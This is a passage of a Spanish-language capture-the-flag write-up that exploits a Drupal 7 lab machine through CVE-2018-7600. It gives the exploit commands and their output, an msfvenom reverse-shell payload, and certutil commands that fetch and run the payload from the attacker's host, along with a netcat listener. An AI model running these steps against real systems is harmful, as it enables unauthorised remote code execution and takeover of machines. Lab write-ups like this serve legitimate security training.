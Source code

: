 Otro método de intrusión se puede ejecutar por medio del [script](https://github.com/pimps/CVE-2018-7600) en `python` del github de [pimps](https://github.com/pimps), por lo que se procede a descargar el repositorio y asignando como argumentos la URL y el comando que se desea ejecutar, tenemos acceso como usuario `iusr`.

```bash
git clone https://github.com/pimps/CVE-2018-7600
cd CVE-2018-7600/
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c whoami
```

```bash
=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-Bq2RKgVRi6UOsNDdQTbbkdP7-_788S3t3WDJh9J9rX4
[*] Triggering exploit to execute: whoami
nt authority\iusr
```

## REVERSE SHELL MSFVENOM

Generamos un `payload` de intrusión con `msfvenom` para obtener acceso a una sesión interactiva de la máquina víctima.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=4564 -f exe -o reverseShell.exe
```

Vamos a realizar dos maneras de darle utilidad al payload generado anteriormente.

### CARGA DE REVERSE POR DRUPAGEDDON2 + CERTUTIL

Activamos un servidor `http` con `python` por el puerto `80`.

```bash
sudo python3 -m http.server 80
```

Hacemos uso del primer exploit para ejecutar el comando `certutil.exe` directamente en la máquina víctima, descargando la reverse shell y posteriormente se ejecuta en la ubicación asignada, no sin antes ponernos en escucha por el puerto donde generamos la reverse shell.

```bash
drupalgeddon2>> certutil.exe -f -urlcache -split http://10.10.14.13/reverseShell.exe C:\Windows\Temp\reverseShell.exe
```

```bash
rlwrap nc -lvnp 4564
```

```bash
drupalgeddon2>> C:\Windows\Temp\reverseShell.exe
```
